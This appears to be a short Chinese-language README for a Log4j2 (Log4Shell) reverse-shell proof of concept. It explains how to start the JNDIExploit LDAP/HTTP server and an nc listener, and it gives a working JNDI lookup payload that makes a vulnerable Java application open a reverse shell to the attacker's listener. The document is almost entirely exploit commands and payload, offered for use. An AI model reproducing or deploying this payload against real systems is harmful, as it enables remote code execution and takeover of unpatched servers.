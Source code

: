 # log4j2-reverseshell-poc

1、使用JNDIExploit启动LDAP与 HTTP  https://github.com/0x727/JNDIExploit

eleven@192 ~> java -jar   JNDIExploit-1.3-SNAPSHOT.jar -i 127.0.0.1


[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 3456...


2、nc 开启监听

eleven@192 ~> nc -l 127.0.0.1 8088 -v

 
3、payload：

${jndi:ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/8088}

<img width="941" alt="image" src="https://user-images.githubusercontent.com/21239564/145577752-17e1c9b4-a7ef-4568-9208-e0461d62b3e2.png">

<img width="789" alt="image" src="https://user-images.githubusercontent.com/21239564/145577807-8e978537-00cc-46c5-90ca-afb9544f27ac.png">


当前版本1.8.0_181 ，jdk1.8.191以上默认不支持ldap协议无法复现
